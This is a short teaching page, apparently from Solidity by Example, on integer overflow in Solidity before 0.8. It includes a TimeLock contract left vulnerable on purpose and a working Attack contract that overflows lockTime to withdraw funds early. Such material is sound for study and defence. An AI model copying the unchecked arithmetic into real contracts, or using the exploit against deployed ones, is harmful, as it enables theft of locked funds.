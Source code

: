 # Arithmetic Overflow and Underflow Vulnerability
From https://solidity-by-example.org/hacks/overflow/

Integer overflow/underflow in smart contracts is a critical vulnerability that occurs when arithmetic operations exceed the maximum or minimum limits of the data type. This is particularly dangerous in versions of Solidity < 0.8 because:

- Integers in Solidity have fixed sizes (uint8 = 8 bits, uint256 = 256 bits, etc.)
- When an operation causes the value to exceed the maximum (2^n - 1) or go below the minimum (0), it will wrap around without any error (versions >= 0.8 throw an error instead)
- This wrapping behavior can be exploited to bypass time locks, manipulate balances, or break other contract invariants

For example, in a uint8 (8 bits):
- Maximum value: 255 (2^8 - 1)
- If you add 1 to 255 → it overflows to 0
- If you subtract 1 from 0 → it underflows to 255

## Why is this dangerous?

In the example contract, the vulnerability allows an attacker to:
1. Deposit funds with a normal 1-week timelock
2. Exploit integer overflow to manipulate the lockTime
3. Withdraw funds immediately, bypassing the timelock entirely

The attack works by finding a value X that when added to the current lockTime T will cause an overflow back to 0:
```
X + T = 2^256 = 0 (due to overflow)
Therefore: X = 2^256 - T
```

## Example
### Vulnerable Code
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for atleast a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint256) public balances;
    mapping(address => uint256) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint256 _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent,) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Exploit Code
```
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint256).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```
